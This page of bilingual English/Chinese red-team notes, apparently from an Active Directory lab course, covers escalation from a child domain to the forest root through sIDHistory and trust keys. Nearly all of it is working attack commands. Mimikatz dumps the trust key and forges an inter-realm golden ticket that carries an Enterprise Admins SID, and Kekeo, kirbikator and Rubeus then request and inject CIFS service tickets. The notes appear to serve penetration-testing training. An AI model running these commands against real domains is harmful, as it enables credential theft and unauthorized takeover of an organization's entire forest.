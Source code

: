 • sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed,they get a new SID and the old SID is added to sIDHistory.（sIDHistory 是为用户从一个域移动到另一个域的场景设计的用户属性。 当用户的域发生变化时，他们会得到一个新的 SID，旧的 SID 会被添加到 sIDHistory。）

• sIDHistory can be abused in two ways of escalating privileges within a forest:（sIDHistory 可以通过两种方式在林中提升权限：）
– krbtgt hash of the child
– Trust tickets

• All the Privilege Escalation to techcorp.local we have seen till now needs some misconfiguration. These ones are 'working as intended'.（到目前为止，我们遇到所有导致域权限提升的问题都是因为错误配置。但是sIDHistory的利用是符合预期的利用）

## Child to Forest Root-Trust Key

枚举 [In] trust key

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName us-dc
```
或者
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\techcorp$"'
```
或者
```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

请求一个跨域的TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /sids:S-1-5-21-2781415573-
3701854478-2406986946-519 /rc4:b59ef5860ce0aa12429f4f61c8e51979 /user:Administrator /service:krbtgt /target:techcorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi"'
```

使用Kekeo，根据上面的tgt，请求一个CIFS的tgs
```
tgs::ask /tgt:C:\AD\Tools\trust_tkt.kirbi /service:CIFS/techcorp-dc.techcorp.local
```

老版本的kekeo用下面命令
```
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/techcorp-dc.techcorp.local
```
**其他服务的票证（例如 WMI 的 HOST 和 RPCSS，HTTP 的PowerShell Remoting 和 WinRM）也可以创建。**

使用上面的tgs，访问父域（可能需要两次）
```
misc::convert lsa TGS_Administrator@us.techcorp.local_krbtgt~TECHCORP.LOCAL@US.TECHCORP.LOCAL.kirbi
```
或者
```
.\kirbikator.exe lsa .\CIFS.techcorp-dc.techcorp.local.kirbi
```

或者使用Rubeus导入TGS
```
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt
```
